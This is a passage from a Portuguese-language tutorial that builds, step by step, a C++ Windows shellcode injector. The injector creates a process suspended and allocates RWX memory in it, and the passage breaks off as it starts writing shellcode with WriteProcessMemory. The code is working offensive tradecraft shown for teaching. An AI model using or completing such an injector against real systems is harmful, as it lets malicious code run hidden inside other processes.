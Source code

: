 ```cpp
int main(int argc, char **argv) {
    if (argc < 2) {
        std::cout << "USAGE: " << argv[0] << " <path\\to\\process>" << std::endl;
        return 1;
    }
```

O seguinte trecho irá utilizar o path para o EXE especificado em `argv[1]` como primeiro argumento da função [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa). Criaremos variáveis locais tendo como tipo as estruturas `STARTUPINFOA` (além da sua inicialização) e `PROCESS_INFORMATION`, para que a criação do processo tenha sucesso. Além disso, é importante que a flag de criação seja `CREATE_SUSPENDED`, para que a thread principal não seja executada imediatamente, gerando uma oportunidade para efetuarmos a injeção.

```cpp
    STARTUPINFOA startupInfo = {sizeof(STARTUPINFOA)};
    PROCESS_INFORMATION procInfo;

    std::cout << "[+] Creating process " << argv[1] << "..." << std::endl;
    BOOL status = CreateProcessA(argv[1], NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &startupInfo, &procInfo);
    if (!status) {
        std::cerr << "Error on CreateProcess: " << GetLastError() << std::endl;
        return 1;
    }
		std::cout << "   \\_ [+] PID: " << procInfo.dwProcessId << std::endl;
```

Após a criação bem sucedida, devemos alocar um espaço de memória RWX no processo remoto. Para isso, podemos utilizar a função [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), repassando o handle para o processo, um endereço preferencial, tamanho, tipo de alocação e de proteção das páginas de memória.

No injetor, o handle para o processo vítima está em `procInfo.hProcess`. Definiremos o tamanho da alocação para o tamanho do shellcode, além soma das constantes `MEM_RESERVE` e `MEM_COMMIT` para o tipo de alocação. Para definirmos as páginas de memória alocadas como RWX, iremos utilizar a contante `PAGE_EXECUTE_READWRITE`.

```cpp
    std::cout << "[+] Allocating memory in remote process..." << std::endl;
    LPVOID shellcodeRemoteLocation = VirtualAllocEx(procInfo.hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!shellcodeRemoteLocation) {
        std::cerr << "Error on VirtualAllocEx: " << GetLastError() << std::endl;
        return 1;
    }
    std::cout << "   \\_ [+] Allocated " << sizeof(shellcode) << " bytes at region " << std::hex << " 0x" << shellcodeRemoteLocation << std::endl;
```

A seguir, utilizaremos a função [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) para escrevermos o nosso shellcode na localização previamente alocada pelo `VirtualAllocEx`. Criaremos uma variável do tipo SIZE_T para guardarmos a quantidade de bytes escrita pela função - sem um ponteiro para ela, a função não irá funcionar.
